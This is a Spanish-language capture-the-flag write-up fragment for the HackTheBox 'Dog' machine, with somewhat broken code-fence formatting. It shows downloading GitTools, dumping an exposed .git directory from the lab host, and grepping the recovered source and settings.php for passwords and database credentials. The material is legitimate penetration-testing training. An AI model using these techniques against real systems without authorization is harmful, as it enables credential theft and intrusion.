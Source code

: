 4. Investigacion del archivo html
```bash
### 🔑 PISTA CLAVE: `dogBackDropSystem`

Lo más útil aquí es ese nombre. Puedes probarlo de dos maneras:

#### A. **Como usuario en el login**

Se encontro el email: tiffany@dog.htb
````
Opción 2: Usar `GitTools` (más completo)
**Uso de `gitdumper.sh`**: Antes de usar `extractor.sh`, es recomendable utilizar `gitdumper.sh` para descargar el contenido del directorio `.git/`. 
Este script intenta reconstruir el repositorio localmente a partir de los archivos disponibles. Puedes hacerlo con los siguientes comandos:
```bash
wget https://raw.githubusercontent.com/internetwache/GitTools/master/Dumper/gitdumper.sh

chmod +x gitdumper.sh

./gitdumper.sh http://10.129.4.78/.git/ ./repo


````

**Uso de `extractor.sh`**: Una vez que hayas descargado los archivos con `gitdumper.sh`, puedes utilizar `extractor.sh` para intentar reconstruir el repositorio:
```bash
wget https://raw.githubusercontent.com/internetwache/GitTools/master/Extractor/extractor.sh

chmod +x extractor.sh

./extractor.sh ./repo ./repo_extracted

````

### ✅ Próximo paso: buscar credenciales y puntos de entrada

Ahora que tienes el código fuente recuperado, deberías enfocarte en encontrar:

#### 🔐 **Credenciales**

Buscar dentro del repo:
```bash
grep -Ri 'password' ./repo_extracted
grep -Ri 'username' ./repo_extracted
grep -Ri 'DB_' ./repo_extracted

````

Busqueda de informacion de bases de datos en settings.php
```bash

grep -i 'databases' ./repo_extracted/0-8204779c764abd4c9d8d95038b6d22b6a7515afa/settings.php -A 10 > databases.txt

```
